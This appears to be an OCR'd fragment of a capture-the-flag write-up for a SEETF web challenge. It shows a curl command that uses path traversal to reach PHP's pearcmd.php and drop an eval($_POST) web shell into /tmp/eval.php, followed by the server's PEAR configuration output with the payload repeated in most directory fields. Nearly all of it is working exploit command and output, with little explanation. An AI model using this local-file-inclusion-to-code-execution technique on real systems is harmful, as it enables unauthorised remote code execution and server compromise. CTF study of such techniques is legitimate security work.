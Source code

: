 
```html
(base) [hacker@hackerbook tmp]$ curl "http://sourcelessguessyweb.chall.seetf.sg+config-create+/&page=../../../usr/local/lib/php/pearcmd.php&/<?=eval(\$_POST\[1\])?>+/tmp/eval.php"

<!--
\        /|   |\   /   /~~  /~~\    /~~ |~~ |~~\| /~~\ |   |/~~
 \  /\  / |---| \ /    |__ |    |   |__ |-- |__/||    ||   ||__
  \/  \/  |   |  |     ___| \__/    ___||__ |  \| \__/  \_/ ___|
-->
...

<script>
    let message = `
        CONFIGURATION (CHANNEL PEAR.PHP.NET):
=====================================
Auto-discover new Channels     auto_discover    <not set>
Default Channel                default_channel  pear.php.net
HTTP Proxy Server Address      http_proxy       <not set>
PEAR server [DEPRECATED]       master_server    <not set>
Default Channel Mirror         preferred_mirror <not set>
Remote Configuration File      remote_config    <not set>
PEAR executables directory     bin_dir          /&page=../../../usr/local/lib/php/pearcmd.php&/<?=eval($_POST[1])?>/pear
PEAR documentation directory   doc_dir          /&page=../../../usr/local/lib/php/pearcmd.php&/<?=eval($_POST[1])?>/pear/docs
PHP extension directory        ext_dir          /&page=../../../usr/local/lib/php/pearcmd.php&/<?=eval($_POST[1])?>/pear/ext
PEAR directory                 php_dir          /&page=../../../usr/local/lib/php/pearcmd.php&/<?=eval($_POST[1])?>/pear/php
PEAR Installer cache directory cache_dir        /&page=../../../usr/local/lib/php/pearcmd.php&/<?=eval($_POST[1])?>/pear/cache
PEAR configuration file        cfg_dir          /&page=../../../usr/local/lib/php/pearcmd.php&/<?=eval($_POST[1])?>/pear/cfg
directory
PEAR data directory            data_dir         /&page=../../../usr/local/lib/php/pearcmd.php&/<?=eval($_POST[1])?>/pear/data
PEAR Installer download        download_dir     /&page=../../../usr/local/lib/php/pearcmd.php&/<?=eval($_POST[1])?>/pear/download
directory
Systems manpage files          man_dir          /&page=../../../usr/local/lib/php/pearcmd.php&/<?=eval($_POST[1])?>/pear/man
directory
PEAR metadata directory        metadata_dir     <not set>
PHP CLI/CGI binary             php_bin          <not set>
php.ini location               php_ini          <not set>
--program-prefix passed to     php_prefix       <not set>
PHP's ./configure
--program-suffix passed to     php_suffix       <not set>
PHP's ./configure
PEAR Installer temp directory  temp_dir         /&page=../../../usr/local/lib/php/pearcmd.php&/<?=eval($_POST[1])?>/pear/temp
PEAR test directory            test_dir         /&page=../../../usr/local/lib/php/pearcmd.php&/<?=eval($_POST[1])?>/pear/tests
PEAR www files directory       www_dir          /&page=../../../usr/local/lib/php/pearcmd.php&/<?=eval($_POST[1])?>/pear/www
Cache TimeToLive               cache_ttl        <not set>
Preferred Package State        preferred_state  <not set>
Unix file mask                 umask            <not set>
Debug Log Level                verbose          <not set>
PEAR password (for             password         <not set>
maintainers)
Signature Handling Program     sig_bin          <not set>
Signature Key Directory        sig_keydir       <not set>
```